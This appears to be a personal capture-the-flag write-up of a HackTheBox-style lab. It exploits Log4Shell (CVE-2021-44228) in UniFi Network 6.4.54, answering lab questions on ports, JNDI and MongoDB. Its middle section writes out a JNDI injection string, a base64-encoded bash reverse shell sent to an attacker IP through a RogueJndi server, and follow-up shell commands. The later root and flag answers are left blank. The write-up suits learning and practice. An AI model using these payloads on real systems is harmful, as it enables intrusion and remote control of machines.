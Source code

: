 
Q1: Which are the first four open ports?

A: 22, 6789, 8080, 8443

Scan with nmap with -sV flag.

![](../../Img/Pasted%20image%2020250424150410.png)

Q2: What is the title of the software that is running running on port 8443?

A: UniFi Network

I had to run the scan again with the -sC flag
![](../../Img/Pasted%20image%2020250424151327.png)

Q3: What is the version of the software that is running?

A: 6.4.54

There wasn't version number in the scan, so digging around i went to the web page of this service (on port 8443) and got this.
![](../../Img/Pasted%20image%2020250424151922.png)

Q4: What is the CVE for the identified vulnerability?

A: CVE-2021-44228

Googleing aroudn i found this github repo (https://github.com/puzzlepeaches/Log4jUnifi) that had the answer.

Q5: What protocol does JNDI leverage in the injection?

A: LDAP

Looking at that cve we get it.
![](../../Img/Pasted%20image%2020250424153434.png)

Q6: What tool do we use to intercept the traffic, indicating the attack was successful?

A: tcpdump

It's just the tool for that.

Q7: What port do we need to inspect intercepted traffic for?

A: 389

It looks like ldap traffic goes to port 389
![](../../Img/Pasted%20image%2020250424155244.png)


Q8: What port is the MongoDB service running on?

A: 27117

So, according to this article (https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) in the remember parameter goes a payload ("${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}\"), but as i'm not using that tool (dnslog.cn) i just use my ip and tcpdump
I get an error
![](../../Img/Pasted%20image%2020250424160606.png)
but also a connection
![](../../Img/Pasted%20image%2020250424160627.png)
With this command we can encrypt the payload for the jndi echo 'bash -c bash -i >&/dev/tcp/{ip}/3333 0>&1' | base64
We insert that payload in the command for starting the jndi sv java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTU3LzMzMzMgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.15.157"
![](../../Img/Pasted%20image%2020250424162840.png)
in burp suite we replace the payload form the remember parameter with our new jdni port (${jndi:ldap://10.10.15.157/:1389/o=tomcat})
we get the connection
![](../../Img/Pasted%20image%2020250424163652.png)
Upgrade it (script /dev/null -c bash)
Now finally for the question let's check if mongo is running (ps aux | grep mongo)
![](../../Img/Pasted%20image%2020250424163929.png)

Q9: What is the default database name for UniFi applications?

A:  ace

Before i had the genius ground breaking idea of just Googleing it i connected to the mongo instance and listed the db
![](../../Img/Pasted%20image%2020250424164412.png)
![](../../Img/Pasted%20image%2020250424164226.png)

Q10: What is the function we use to enumerate users within the database in MongoDB?

A: db.admin.find()

This doesn't seem to me like a just find user command, db.getUsers() seems like the answer (https://www.prisma.io/dataguide/mongodb/configuring-mongodb-user-accounts-and-authentication)

Q11: What is the function we use to update users within the database in MongoDB?

A: db.admin.update()

Following the trend here, i got no problem with this one .

Q12: What is the password for the root user?

A: 

Q13: Submit user flag

A: 

Q14: Submit root flag

A: 
